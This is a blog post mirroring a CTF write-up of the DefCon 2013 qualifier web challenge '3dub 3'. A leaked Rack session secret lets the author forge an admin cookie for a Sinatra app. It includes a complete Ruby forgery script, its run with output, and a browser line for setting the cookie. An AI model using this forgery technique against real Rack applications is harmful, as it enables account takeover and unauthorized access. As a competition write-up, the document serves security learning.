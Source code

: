 ```yaml
---
layout: post
title: "DefCon CTF Qualifier 2013 3dub 3 Write Up"
date: 2013-06-28 12:00:00
categroies: ctf web
---
```


mirror of [http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/](http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/)

First of all, we got a `secrets` link and `log in or create user` form. When we create and login, the website redirect us to the 'secrets' page like this

> Secrets
> 
> name owner actions
> 
> key admin [show](#)
> 
> nothing asdf [show](#)
> 
> [new secret](#)

we've got some links to see secrets owned by other users, include the `admin`, or easily add a new secret ourselves.

Having a try to open the admin's secret, we got a 500 Error Page with some error stack, which powered by the Ruby framework `Sinatra`.

From the very first sight of the page, it said `unauthorized` as the error message and a piece of source code was provided

``` ruby
    end

    redirect '/secrets'
end

get '/secrets/:id' do
    s = SECRETS[params[:id].to_i]
raise "unauthorized" if session[:user_name] != s.username

haml :secret, locals: {secret: s}
end

helpers do
    def current_user
        return nil unless session[:user_name]
```

<!-- more -->

It meant that I'm not the secret's holder. then have a look at the whole page, and you would find some environment variable in the `Rack ENV` section, partly like

* rack.session

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.session.options

``` ruby
{:path=>"/", :domain=>nil, :expire_after=>nil, :secure=>false, :httponly=>true, :defer=>false, :renew=>false, :sidbits=>128, :secure_random=>SecureRandom, :secret=>"wroashsoxDiculReejLykUssyifabEdGhovHabno", :coder=>#}
```

* rack.session.unpacked_cookie_data

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.request.cookie_hash

``` ruby
{"rack.session"=>"BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n--d637305e23d6693f3ebe276b292293c7ff0b72e6"}
```

we've got some message:

the cookie `rack.session` is some way encoded of `rack.session.unpacked_cookie_data`, which is totally the same as env variable rack.session, and the coder mybe `Rack::Session::Cookie::Base64::Marshal`, secret (if any) maybe `wroashsoxDiculReejLykUssyifabEdGhovHabno`

By seeking the source code of rack, we found this [https://github.com/rack/](https://github.com/rack/rack/blob/master/lib/rack/session/cookie.rb)

``` ruby
    @secrets = options.values_at(:secret, :_old_secret).compact
    # some code else
    session_data = coder.encode(session)
    if @secrets.first
        session_data << "--#{generate_hmac(session_data, @secrets.first)}"
    end 
    # some code else
    def generate_hmac(data, secret)
        OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
    end
```

Once the server received a request, it would confirm the validation of the cookie, reset the session if digest mismatch

``` ruby
if @secrets.size > 0 && session_data
    session_data, digest = session_data.split("--")
    session_data = nil unless digest_match?(session_data, digest)
end
```

Meanwhile, we knew the whole process of the session checking. thus, I've wrote a ruby script to figure out this stuff with this way

* `unpack(decode)` the cookie to origin session data
* modify session_data.user_name to `admin`
* `repack(encode)` the session data to cookie string format
* calculate a new digest of the session data then build the cookie

### code

``` ruby
#!/usr/bin/ruby
#Author: xelz@blue-lotus

require 'openssl'

# part of rack/lib/rack/session/cookie.rb
class Base64
    def encode(str)
        [str].pack('m')
    end

    def decode(str)
        str.unpack('m').first
    end

    # Encode session cookies as Marshaled Base64 data
    class Marshal < Base64
        def encode(str)
            super(::Marshal.dump(str))
        end

        def decode(str)
            return unless str
            ::Marshal.load(super(str)) rescue nil
        end
    end
end

def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

exit() unless ARGV[0]

data = ARGV[0].split('--')[0]
# puts 'data is:'
# puts data, "\n"

coder = Base64::Marshal.new
data = coder.decode(data)
data['user_name'] = "admin"
data = coder.encode(data)
# puts 'modified data is:'
# puts data, "\n"
data = data

secret = 'wroashsoxDiculReejLykUssyifabEdGhovHabno'
# puts 'new digest string is:'
digest = generate_hmac(data, secret)
# puts digest, "\n"

puts 'cookie is'
cookie = data.gsub("\n", "%0A") + '--' + digest
puts cookie
```

run the script like this:

``` bash
xelz@blue-lotus:defconctf$echo -en 'BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n' | awk '{print $1"\\"}' | xargs ./hypeman.rb
cookie is
BAh7CSINdHJhY2tpbmd7CCIZSFRUUF9BQ0NFUFRfRU5DT0RJTkciLWVkMmIz%0AY2E5MGE0ZTcyMzQwMjM2N2ExZDE3YzhiMjgzOTI4NDIzOTgiFEhUVFBfVVNF%0AUl9BR0VOVCItOWMxZjdmOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlk%0ANDhiYiIZSFRUUF9BQ0NFUFRfTEFOR1VBR0UiLWNhNGFlZTBlODEyMTRhZGRj%0ANWZiMTI4NzdjZjllNWM4YjhiZWI3ZDYiCWNzcmYiRTVmNmQ4NWI3ZTFiMGE0%0AOGM4YTg3ZTQyODAzYWMxNjZjZjdkNjAxMjFhZmQyNGJhOTM3YmY2NWZhNGY4%0AOTg5YzYiD3Nlc3Npb25faWQiRTM1M2M2NjUyNWEwMWZhMGIzODU2Y2I5ZjM0%0AYWFlMmFhOWEzNmFkNGNkZTAyZGFlYTBjY2ZiYWY1NjZkZGJiNWEiDnVzZXJf%0AbmFtZSIKYWRtaW4=%0A--4bd0a545e155460f804aff9df3e80e20fdffa07f
```

then modify the cookie with the new value, using any tool you like such as Firebug(for Firefox), WebInspector(for Webkit Based Browser), Fiddler(under IE7), Burpsuite(Java Based for any platform), I'd like to use the Javascript Console in Chrome:

``` javascript
document.cookie='rack.session=xxx;'
```

refresh the page, and enjoy :)

### key

> watch out for this Etdeksogav
